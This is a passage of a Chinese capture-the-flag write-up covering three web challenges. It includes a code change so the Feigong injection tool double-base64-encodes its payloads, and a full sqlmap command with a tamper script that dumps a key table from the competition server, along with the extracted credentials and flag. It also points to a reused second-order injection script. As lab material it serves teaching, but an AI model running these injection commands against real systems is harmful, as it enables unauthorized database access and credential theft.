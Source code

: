 修改lib/Conpayload.py（36-39）为
```
for key in request:
	    if request[key] == 'Feigong':
	        request[key] = base64.b64encode(base64.b64encode(payload))
	return request
```
配置修改部分获得数据（已上传到github demo目录中）

得到
```
[*] Database websec Table sql_login content:
+----+----------+------------+---------------+
| id | username |   password |          role |
+----+----------+------------+---------------+
|  1 |     test |   test_123 |        Member |
|  2 |    admin | ADMIN_test | Administrator |
+----+----------+------------+---------------+
```

但是不知道为什么，可能是网络问题，一直注不到key，没办法，队友掏出了sqlmap配置tamper get

python sqlmap.py -u "http://huashan.xdsec.cn/62dd8d15b361f0f441e7/06acad5e2754f7e96d64/" --data "username=321&password=321&submit=1231&role=*" --dbms=mysql -D websec -T the_key --dump --tamper=doublebase64 --random-agent --technique=T -v 3 --level 3


Database: websec
Table: the_key
[1 entry]
+-------------------------------+
| key                           |
+-------------------------------+
| flag_Xd{hSh_ctf:sql_succeed!} |
+-------------------------------+

## 3秒钟记忆 ##


开始翻翻突然找到了原题，
[http://tasteless.eu/post/2014/04/plaidctf-2014-whatscat-writeup/](http://tasteless.eu/post/2014/04/plaidctf-2014-whatscat-writeup/)

得到脚本
http://pastebin.com/M7rcA3xK

题目不知道为什么特别的卡。。脚本完全跑不动。。跑了很久才得到flag

核心逻辑应该不难理解，二次注入处理导致的注入，仔细审计一下也能发现。


## 简单的js ##

没什么意思，进入页面 f12 看源码 复制中间的js代码  在console中运行 得到通关密码 填写密码 返回flag
